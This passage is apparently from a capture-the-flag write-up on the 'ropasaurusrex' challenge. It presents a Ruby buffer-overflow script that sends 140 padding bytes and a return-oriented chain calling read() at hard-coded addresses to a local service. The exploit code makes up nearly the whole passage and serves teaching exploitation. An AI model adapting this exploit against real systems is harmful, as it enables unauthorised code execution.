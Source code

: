 ```
```

We update our exploit to look like this (explanations are in the comments):

```

<span class="lnr"> 1 </span>$ cat sploit.rb
<span class="lnr"> 2 </span><span class="PreProc">require</span> <span class="Special">'</span><span class="Constant">socket</span><span class="Special">'</span>
<span class="lnr"> 3 </span>
<span class="lnr"> 4 </span>s = <span class="Type">TCPSocket</span>.new(<span class="Special">"</span><span class="Constant">localhost</span><span class="Special">"</span>, <span class="Constant">4444</span>)
<span class="lnr"> 5 </span>
<span class="lnr"> 6 </span><span class="Comment"># The command we'll run</span>
<span class="lnr"> 7 </span>cmd = <span class="Identifier">ARGV</span>[<span class="Constant">0</span>] + <span class="Special">"</span><span class="Special">\0</span><span class="Special">"</span>
<span class="lnr"> 8 </span>
<span class="lnr"> 9 </span><span class="Comment"># From objdump -x</span>
<span class="lnr">10 </span>buf = <span class="Constant">0x08049530</span>
<span class="lnr">11 </span>
<span class="lnr">12 </span><span class="Comment"># From objdump -D ./ropasaurusrex | grep read</span>
<span class="lnr">13 </span>read_addr = <span class="Constant">0x0804832C</span>
<span class="lnr">14 </span><span class="Comment"># From objdump -D ./ropasaurusrex | grep write</span>
<span class="lnr">15 </span>write_addr = <span class="Constant">0x0804830C</span>
<span class="lnr">16 </span>
<span class="lnr">17 </span><span class="Comment"># Generate the payload</span>
<span class="lnr">18 </span>payload = <span class="Special">"</span><span class="Constant">A</span><span class="Special">"</span>*<span class="Constant">140</span> +
<span class="lnr">19 </span>  [
<span class="lnr">20 </span>    cmd.length, <span class="Comment"># number of bytes</span>
<span class="lnr">21 </span>    buf,        <span class="Comment"># writable memory</span>
<span class="lnr">22 </span>    <span class="Constant">0</span>,          <span class="Comment"># stdin</span>
<span class="lnr">23 </span>    <span class="Constant">0x43434343</span>, <span class="Comment"># read's return address</span>
<span class="lnr">24 </span>
<span class="lnr">25 </span>    read_addr <span class="Comment"># Overwrite the original return</span>
<span class="lnr">26 </span>  ].reverse.pack(<span class="Special">"</span><span class="Constant">I*</span><span class="Special">"</span>) <span class="Comment"># Convert a series of 'ints' to a string</span>
<span class="lnr">27 </span>
<span class="lnr">28 </span><span class="Comment"># Write the 'exploit' payload</span>
<span class="lnr">29 </span>s.write(payload)
<span class="lnr">30 </span>
<span class="lnr">31 </span><span class="Comment"># When our payload calls read() the first time, this is read</span>
<span class="lnr">32 </span>s.write(cmd)
<span class="lnr">33 </span>
<span class="lnr">34 </span><span class="Comment"># Clean up</span>
<span class="lnr">35 </span>s.close()
```
